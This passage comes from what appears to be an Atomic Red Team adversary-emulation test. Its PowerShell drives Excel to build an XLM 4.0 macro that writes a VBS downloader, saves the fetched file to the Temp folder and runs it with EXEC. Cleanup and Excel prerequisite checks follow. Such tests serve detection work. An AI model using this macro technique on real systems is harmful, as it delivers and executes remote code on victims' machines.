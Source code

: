 ```powershell
$sheet.Cells.Item(9,1) = "=FWRITELN(A5, `"winHttp.Open `"`"GET`"`", url, False`")"
$sheet.Cells.Item(10,1) = "=FWRITELN(A5, `"winHttp.Send`")"
$sheet.Cells.Item(11,1) = "=FWRITELN(A5, `"If winHttp.Status = 200 Then`")"
$sheet.Cells.Item(12,1) = "=FWRITELN(A5, `"Set oStream = CreateObject(`"`"ADODB.Stream`"`")`")"
$sheet.Cells.Item(13,1) = "=FWRITELN(A5, `"oStream.Open`")"
$sheet.Cells.Item(14,1) = "=FWRITELN(A5, `"oStream.Type = 1`")"
$sheet.Cells.Item(15,1) = "=FWRITELN(A5, `"oStream.Write winHttp.responseBody`")"
$sheet.Cells.Item(16,1) = "=FWRITELN(A5, `"oStream.SaveToFile `"`"C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A2&`"`"`", 2`")"
$sheet.Cells.Item(17,1) = "=FWRITELN(A5, `"oStream.Close`")"
$sheet.Cells.Item(18,1) = "=FWRITELN(A5, `"End If`")"
$sheet.Cells.Item(19,1) = "=FCLOSE(A5)"
$sheet.Cells.Item(20,1) = "=EXEC(`"explorer.exe C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A3&`"`")"
$sheet.Cells.Item(21,1) = "=WAIT(NOW()+`"00:00:05`")"
$sheet.Cells.Item(22,1) = "=EXEC(`"explorer.exe C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A2&`"`")"
$sheet.Cells.Item(23,1) = "=HALT()"
$sheet.Cells.Item(1,1).Name = "runme"
$xlApp.Run("runme")
$xlApp.Quit()

[System.Runtime.Interopservices.Marshal]::ReleaseComObject($xlBook) | Out-Null
[System.Runtime.Interopservices.Marshal]::ReleaseComObject($xlApp) | Out-Null
[System.GC]::Collect()
[System.GC]::WaitForPendingFinalizers()

Remove-Variable xlBook
Remove-Variable xlApp
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "procexp*" -ErrorAction Ignore
Remove-Item "$env:TEMP\atomic_redteam_x4m_exec.vbs" -ErrorAction Ignore
Remove-Item "$env:TEMP\procexp.exe" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```
